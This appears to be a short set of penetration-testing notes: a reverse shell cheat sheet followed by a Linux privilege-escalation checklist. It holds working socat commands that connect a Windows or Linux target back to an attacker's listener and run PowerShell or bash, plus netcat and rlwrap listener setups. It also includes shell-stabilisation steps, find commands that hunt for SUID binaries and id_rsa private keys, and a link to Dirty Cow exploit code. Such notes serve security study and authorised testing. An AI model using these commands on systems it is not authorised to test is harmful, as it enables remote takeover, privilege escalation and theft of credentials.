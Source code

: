 # Cheat Sheet for Reverse Shell

https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Interative shell commands steps:
* Using Python
step-1:
python3 -c 'import pty; pty.spawn("/bin/bash")'
step-2:
export TERM=xterm
Setp-3:
we will background the shell using Ctrl + Z. Back in our own terminal we use 
stty raw -echo; fg. 
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 

* Using rlwrap
First invoke a listner
>> rlwrap nc -lvnp <port>
This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.

* using socat
Start a listener on the attacker machine
>>socat TCP-L:<port> -

on the target machine:
On Windows we would use this command to connect back:
>>socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
>>socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"




https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys


"Priv Esc Checklist"

Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
Locating other services running or applications installed that may be abusable (SUID & out of date software)
Looking for automated scripts like backup scripts (exploiting crontabs)
Credentials (user accounts, application config files..)
Mis-configured file and directory permissions

https://payatu.com/guide-linux-privilege-escalation
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

use find command before priv escalation.
> find / -name id_rsa 2> /dev/null

for SUID
Let's confirm this by using find to search the machine for executables with the SUID permission set: 
> find / -perm -u=s -type f 2>/dev/null
https://gtfobins.github.io/gtfobins/bash/

Dirty Cow exploit:
https://github.com/FireFart/dirtycow/blob/master/dirty.c



